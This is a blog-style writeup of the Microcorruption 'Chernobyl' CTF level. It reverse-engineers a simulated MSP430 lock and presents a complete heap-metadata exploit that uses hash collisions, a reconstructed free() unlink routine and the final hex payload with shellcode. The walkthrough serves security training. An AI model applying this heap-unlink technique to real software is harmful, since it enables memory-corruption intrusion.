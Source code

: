 ```yaml
---
title: "Microcorruption Chernobyl Writeup"
categories: CTF
comments: true
---
```


This is my writeup for "Chernobyl", the second to last level on the [Microcorruption](https://microcorruption.com) CTF. Like usual, if you haven't already solved it or given it your very best shot, you should stop reading and go do that now.

## The input

This binary is pretty big compared to previous levels. There's a lot more functionality, and I spent a fair bit of time getting acquainted with the program.

I first stepped through some test inputs to see what was going on. The first character is tested against 0x61, or 'a', and then against 'n'. A bit more digging revealed the following information:

1. The first command "access" takes a username of any length and a pin of any length
2. The second command is "new" (or at the very least a 3 letter word starting with 'n'), and also takes a username and pin of any length
3. The pin, stored as one word (calculated in modular fashion from the input), may not have the high bit set
4. A command beginning with neither 'a' or 'n' terminates the program
5. Commands may be chained using a ';'
6. The input buffer (on the stack) does not overflow, and is wiped entirely after processing each set of entered commands
7. Users and their pins are stored in a hash table
8. Neither the user nor their pin overflows, despite taking arbitrarily large arguments (the username is simply truncated, and the pin is calculated within one register)

## The hash table

I'd never actually familiarized myself with hash table implementations, so I spent a bit of time doing that first. Turns out it's pretty simple. A hash table is initialized with a certain number of bins, in this case 8 (2^3, where the 3 is stored at 0x5008). Keys (in this case, the username string) are hashed. This value, modulo the number of bins, determines where the key and value will be stored.

The collision resolution is simple, the keys and values are stored sequentially, and a search will step through them using `strcmp` to find the key. When the number of entries stored in the hash table (at 0x5006) is greater than its capacity (initially 10, or 5 * 2^(3 - 2), where the 3 comes from 0x5008 and the 5 from 0x500a), the hash table is rehashed, and the number of bins is doubled (0x5008 is incremented).

Once you analyze the hash function (modular hashing, which is exactly what Java does), it's trivial to generate collisions. A bit of testing reveals that this is where the vulnerability is. It turns out that we can pack more key-value pairs in a bin than there was space allocated, before rehashing occurs. We can overwrite the chunk metadata used by `malloc` and `free`. We can also overwrite user data in the following bins.

## Almost a solution

Even though I knew the answer (a quick search revealed there was no code to open the lock), I decided to look at another possibility anyway. How are users activated? After using the `access` command on an existing user, the following instructions are hit:

```nasm
4c0c:  call     #0x49cc <get_from_table>
4c10:  cmp      #-0x1, r15
4c12:  jne      #0x4c1a <run+0xb4>
...
4c1a:  xor      r15, r10
4c1c:  and      #0x7fff, r10
4c20:  jnz      #0x4c32 <run+0xcc>
4c22:  cmp      r10, r15
4c24:  jge      #0x4c2c <run+0xc6>
4c26:  mov      #0x4aa3, r15
4c2a:  jmp      #0x4c9c <run+0x136>
```

The cmp instruction checks if the username was found. If it was, it XORs the returned pin with the entered pin (in r10), and &s with 0x7fff. If all but the most significant bit are equal, the jump at 4c20 will not happen. Then, if r15 is less than r10 (since r10 is zero, r15 must have the high bit set) we move 0x4aa3 into r15, and jump to a `puts` call. The string at address 0x4aa3 happens to be the "Access granted." string! So the high bit in the stored pin is the activated account flag. That is why a pin with the 16th bit set is not accepted.

So all we have to do is enter a bunch of username collisions, and have the last entry overwrite the pin of a user in the next bin to set the high bit. Easy! I did that, it printed the string "Access granted." and then... nothing. Bummer! I already knew it wouldn't, but I felt slightly cheated. After all, this exploit would work in an actual production lock!

## Exploiting the heap

This heap exploit works in a very similar fashion to a previous level, "Algiers". `malloc` and `free` appear to have the same implementation. A bit of stepping reveals that `free` is called during `rehash`. This is the call we can exploit.

The `free` function looks approximately like this. Note that the least significant bit of the `size` field is actually a flag that indicates whether the chunk is in use or not (this can be done safely since the chunks have to be aligned in memory).

```c
struct malloc_chunk {
    malloc_chunk *bk;
    malloc_chunk *fd;
    uint16_t size;
};

void free(void *ptr) {
    malloc_chunk *p = ptr - 6;
    p->size &= ~1;

    malloc_chunk *prev = p->bk;
    if (prev->size & 1 == 0) {
        prev->size += p->size + 6;
	prev->fd = p->fd;
	p->fd->bk = prev;
	p = prev;
    }

    malloc_chunk *next = p->fd;
    if (next->size & 1 == 0) {
        p->size += next->size + 6;
        p->fd = next->fd;
	next->fd->bk = p;
    }
}
```

All we have to do is make sure the previous chunk is available, and then using carefully selected values for the `bk` and `fd` fields, we can overwrite the return address and take control of the program. One way to do this is to set `bk` as the desired destination address, and `fd` as the location of the return address on the stack.

But wait! In the call to `rehash`, the new bins are allocated first. `malloc` does this by stepping through the linked list in the metadata of each chunk (more advanced versions of `malloc` only include this metadata in unused chunks). So if we overwrite one chunk's metadata, `malloc` will jump to our overwritten value and most likely crash. Only after the new bins have all been allocated is `free` called, sequentially for each old bin. There's an easy way around this: we can overwrite one chunk's metadata to have `fd` point two chunks ahead. In the skipped chunk, we can safely overwrite the metadata. Okay! Let's write our input.

## Calculating our input

Each bin has room for 5 entries. The 6th will overwrite the metadata. Unfortunately, the initial capacity is 11, so we won't be able to overwrite two. Luckily, the bin size remains the same after rehashing. So we'll allow the first rehash to execute as intended. The second rehash happens before the 22nd user is entered. We will need:

1. 6 users in one bin, with the last overwriting the next chunk's metadata to skip one chunk
2. 6 users in the following bin, with the last overwriting the next chunk's metadata with the return address location and new value
3. 10 other users distributed in other bins
4. A tablespoon of shellcode

The hash function is a modular hash function with 31 as the small prime. We already know that after one rehash, there will be 16 bins. So to generate collisions we can just use single bytes, incrementing by 16. To start off, let's place dummy users in each of the first 3 bins (this will also allow the first rehash to happen as intended).

```
6e6e6e6e10203b6e6e6e6e30203b6e6e6e6e40203b6e6e6e6e50203b6e6e6e6e60203b
6e6e6e6e1f203b6e6e6e6e2f203b6e6e6e6e3f203b6e6e6e6e4f203b6e6e6e6e5f203b
6e6e6e6e1e203b6e6e6e6e2e203b6e6e6e6e3e203b6e6e6e6e4e203b6e6e6e6e5e203b
```

The 6e6e6e6e is simply "nnnn" to satisfy the program's requirements of the `new` command. "10203b" is the username, a space to trigger the username end, and a semi-colon to chain the next command. This user's pin will be calculated as 0, although it's not relevant for our exploit. The first five modulo 16 are all equal to 0, the next five 15, and the last 14. This places them in consecutive bins. Now let's overwrite the chunk metadata.

```
6e6e6e6e8853a85407203b
```

The sixth user in the bin is directly aligned with the following chunk's metadata, so we don't need any dummy bytes. The fourth chunk's address is 0x54a8, so we overwrite the second chunk's `fd` field to point here, skipping the third. We leave the `bk` field as it was. The 0x07 ensures that the hash modulo 16 is equal to 0, and that this user is placed in the desired first bin.

```
6e6e6e6e8e3ece3d0e203b
```

The third chunk's metadata is overwritten with the location of the return address on the stack, 0x3dce, and the desired value, 0x3e8e where we will place our shellcode. Again, the 0x0e places this user in the second bin.

All that's left is to add 5 more dummy users to trigger the second rehash and then tack on our shellcode at the end of our input, at address 0x3e8e. I put this at the end, in an unprocessed user since it contains null bytes and I didn't feel like designing shellcode without null bytes. Since the `free` call modifies more memory around our target (including the `size` field, I used a jump to skip past the garbage bytes, to our familiar shellcode. It looks like this:

```nasm
jmp      $+0x8
...
mov      #0xff00, sr
call     #0x10
```

The final input looks like this:

```
6e6e6e6e10203b6e6e6e6e30203b6e6e6e6e40203b6e6e6e6e50203b6e6e6e6e60203b
6e6e6e6e1f203b6e6e6e6e2f203b6e6e6e6e3f203b6e6e6e6e4f203b6e6e6e6e5f203b
6e6e6e6e1e203b6e6e6e6e2e203b6e6e6e6e3e203b6e6e6e6e4e203b6e6e6e6e5e203b
6e6e6e6e8853a85407203b6e6e6e6e8e3ece3d0e203b6e6e6e6e1d203b6e6e6e6e2d20
3b6e6e6e6e3d203b6e6e6e6e4d203b6e6e6e6e5d203b033c000000000000324000ffb0
121000
```

## Final thoughts

I took the path of least resistance and simply hid the chunk I was manipulating from `malloc`, but it would have been possible to do this with a single chunk metadata overwrite. In this case, we just have to make sure that the `fd` pointer in the overwritten chunk points to either the end of the heap or a dummy chunk that we create, at an address higher than the current chunk. Else we run the risk that `malloc` thinks the heap has been exhausted. In this case, we could exploit the first rehash and our input would be a lot shorter.

A working exploit is a working exploit though, so I didn't bother going the extra mile. Especially since I doubt I'll see this implementation of the heap again!

